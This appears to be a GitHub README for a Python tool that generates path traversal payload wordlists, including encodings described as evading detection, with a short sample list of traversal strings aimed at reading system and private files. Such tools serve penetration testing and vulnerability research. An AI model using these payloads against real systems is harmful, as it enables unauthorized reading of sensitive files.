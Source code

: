 # Traverse-Alchemist
# 🌌 Path Traversal Worlists Generator

Welcome to the **Path Traversal Generator**! This program is designed to help you generate various path traversal payloads. A lot of encodings and workarounds.

## 🌈 Features

- **Dynamic Payload Generation**: Create a variety of payloads to test for path traversal vulnerabilities.
- **Customizable File Paths**: Input any file path to generate tailored payloads.
- **Colorful Output**: Enjoy a vibrant terminal experience with colored outputs!
- **Multiple Encoding**: Generate payloads with various encoding techniques to evade detection.

## 🛠️ Installation and use:

```bash
git clone https://github.com/raikoho/Traverse-Alchemist.git
cd Traverse-Alchemist
python traversal.py
```
You will be prompted to enter the target file path. For example:
```
Enter the target file path (e.g., /etc/passwd):
```
After entering your desired path, the program will generate a colorful wordlist of potential payloads and save it to a text file.

## 📄 Little Example Generated Payloads

```
../../\..\/home/carlos/secret
../../\..\\/\h\o\m\e\/\c\a\r\l\o\s\/\s\e\c\r\e\t
..%5C\/%2Fhome%2Fcarlos%2Fsecret
..%5C\//home/carlos/secret
data/home/carlos/secret
hidden%2Fhome%2Fcarlos%2Fsecret
..%5C\/home/carlos/secret
....//....//....//secret
....//....//....//secret%00.txt
```

## 📜 Contributing

Contributions are welcome! If you have ideas for new features, improvements, or fixes, please open an issue or submit a pull request. Let's make it even better!
